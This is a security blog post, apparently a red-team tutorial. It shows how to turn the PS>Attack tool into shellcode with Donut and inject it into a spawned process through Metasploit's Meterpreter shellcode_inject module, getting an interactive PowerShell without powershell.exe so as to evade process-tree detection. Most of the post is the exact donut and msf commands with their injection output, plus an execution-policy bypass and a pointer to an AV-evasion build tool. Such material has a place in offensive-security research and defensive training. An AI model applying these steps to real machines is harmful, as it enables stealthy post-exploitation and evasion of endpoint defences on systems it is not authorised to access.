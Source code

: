```yaml
---
layout: default
---
```


_**Oct 3, 2019**_

## We Don't Need PowerShell.exe: Meterpreter edition!

I am keeping playing with the awesome [Donut](https://github.com/TheWover/donut) project and this time we are going to spawn a reflective, interactive PowerShell session without relying on `powershell.exe`! 🐱‍👤

[![asciicast](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr.svg)](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr)

# Prerequisites

First, I suggest to read the following blog posts for a bit of context:

- https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/
- https://decoder.cloud/2017/11/08/we-dont-need-powershell-exe-part-2/
- https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/
- https://decoder.cloud/2017/12/13/we-dont-need-powershell-exe-4/
- https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html

## Motivation

[As shown in the previous post](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html), we are now able to reflectively execute arbitrary binaries thanks to [Donut](https://github.com/TheWover/donut) within a Meterpreter session. Is it also possible to spawn a `cmd.exe` or `powershell.exe` in this way and evade any potential detection running on the host's process tree? Let's find it out!

## Investigation

If we generate a shellcode for `cmd.exe` and `powershell.exe` and try to inject it into a `notepad.exe` process, nothing seems to be happening, or more precisely, the entire process exits. Unfortunately, at the time of writing, [Donut](https://github.com/TheWover/donut) only supports arguments passing for .NET EXEs and .NET DLLs so we cannot try to mess with the command line in order to keep alive our injected shell.  

Are we done already?  

Maybe there are some other shells that we can use in place of the built-in ones. Let's try out with some open source .NET project that executes PowerShell commands without directly relying on `powershell.exe`: say welcome to [PS>Attack](https://github.com/jaredhaight/PSAttack)!  

Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/psattack.exe -a 2 -o /tmp/psattack.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/psattack.exe"
  [ File type     : :NET EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/psattack.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/psattack.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

 (   (                                           )  
 )\ ))\ )   (      *   ) *   )   (       (    ( /(  
(()/(()/(   )\   ` )  /` )  /(   )\      )\   )\()) 
 /(_)/(_)((((_)(  ( )(_)( )(_)((((_)(  (((_)|((_)\  
(_))(_))__)\ _ )\(_(_()(_(_()) )\ _ )\ )\___|_ ((_) 
| _ / __\ (_)_\(_|_   _|_   _| (_)_\(_((/ __| |/ /  
|  _\__ \> / _ \   | |   | |    / _ \  | (__  ' <   
|_| |___/_/_/ \_\  |_|   |_|   /_/ \_\  \___|_|\_\ 

Loading...

...

Set -ExecutionPolicy Bypass -Scope Process -Force
[Version 1.99.1] Build Date 2/17/2018 2:45:08 PM

If you'd like a version of PS>Attack thats even harder for AV
to detect checkout http://github.com/jaredhaight/PSAttackBuildTool

For help getting started, run 'get-attack'

C:\Windows\system32 #> echo "we don't need powershell!"
we don't need powershell!
C:\Windows\system32 #> 'amsiutils'
'amsiutils'
C:\Windows\system32 #> exit
[*] Post module execution completed
```

It works, we have successfully spawned an interactive PowerShell session without actually spawning `powershell.exe`! 🚀

![demo](../assets/images/shellcode_psattack.jpg "Demo")

[back](../)
